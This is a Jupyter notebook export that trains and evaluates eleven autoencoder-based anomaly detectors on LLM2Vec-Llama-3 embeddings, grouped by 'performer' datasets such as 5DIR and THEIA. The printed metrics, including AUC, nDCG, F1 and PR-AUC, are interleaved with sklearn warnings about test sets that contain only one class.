In [4]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for LLM2Vec-Llama-3
BASE_DIR = "final_train_test_split_llm2vec_llama3"
RESULTS_FILE = "results_all_autoencoders_llm2vec_llama3.csv"
MODEL_SAVE_DIR = "saved_weights_llm2vec_llama3"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] Llama-3 8B models use 4096 dimensions
INPUT_DIM = 4096    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll_llama3_manual
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9266 | nDCG: 0.5416 (DCG: 2.3042, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.8861 | nDCG: 0.5403 (DCG: 2.2988, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9608 | nDCG: 0.4636 (DCG: 1.9723, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.7447 | nDCG: 0.5244 (DCG: 2.2309, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.7835 | nDCG: 0.4775 (DCG: 2.0316, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.8549 | nDCG: 0.5087 (DCG: 2.1642, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.9038 | nDCG: 0.5496 (DCG: 2.3381, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.8957 | nDCG: 0.5454 (DCG: 2.3205, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.937 | nDCG: 0.6838 (DCG: 2.9094, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.948 | nDC

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Deep SVDD... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll_llama3_manual
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9964 | nDCG: 0.7554 (DCG: 15.8167, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.8025 | nDCG: 0.3617 (DCG: 7.5727, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.5 | nDCG: 0.338 (DCG: 7.0765, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9704 | nDCG: 0.4776 (DCG: 10.0004, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8261 | nDCG: 0.3659 (DCG: 7.6607, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.8145 | nDCG: 0.3617 (DCG: 7.5733, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.7772 | nDCG: 0.3569 (DCG: 7.4737, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.8311 | nDCG: 0.3651 (DCG: 7.6448, IDCG: 20.9387)
    -

In [4]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Configured to match your exact directory names
EMBEDDING_NAME = "llm2vec_llama3" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] Llama 3 8B based models (LLM2Vec) use 4096 dimensions
INPUT_DIM = 4096 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Bridging llm2vec_llama3 to llama3_manual gap)
    mod_name_clean = model_name.replace(' ', '')
    
    # Safely removes the dataset extension to isolate the core context (e.g. "ProcessEvent")
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Explicitly checks for "llama3_manual" which is how your weights were saved
            if (performer in f and 
                mod_name_clean in f and 
                base_context in f and 
                "llama3_manual" in f and 
                f.endswith('.pth')):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for LLM2VEC_LLAMA3 on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll_llama3_manual
    -> Baseline Done! F1: 0.25 | PR-AUC: 0.1735
    -> Sparse Done! F1: 0.3 | PR-AUC: 0.1782
    -> Deep SVDD Done! F1: 0.3158 | PR-AUC: 0.1395
    -> DAE Done! F1: 0.2857 | PR-AUC: 0.1728
    -> VAE Done! F1: 0.2 | PR-AUC: 0.1545
    -> Beta-VAE Done! F1: 0.2 | PR-AUC: 0.1375
    -> GMVAE Done! F1: 0.3 | PR-AUC: 0.1832
    -> Attention AE Done! F1: 0.3 | PR-AUC: 0.1808
    -> LSTMAE Done! F1: 0.5 | PR-AUC: 0.3532
    -> Robust Done! F1: 0.3 | PR-AUC: 0.2034
    -> Contractive Done! F1: 0.3 | PR-AUC: 0.1844

Evaluating: 5DIR - ProcessEvent_llama3_manual
    -> Baseline Done! F1: 0.0635 | PR-AUC: 0.0202
    -> Sparse Done! F1: 0.0976 | PR-AUC: 0.0273
    -> Deep SVDD Done! F1: 0.1053 | PR-AUC: 0.0348
    -> DAE Done! F1: 0.1429 | PR-AUC: 0.0491
    -> VAE Done! F1: 0.0208 | PR-AUC: 0.007
    -> Beta-VAE Done! F1: 0.0233 | PR-

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
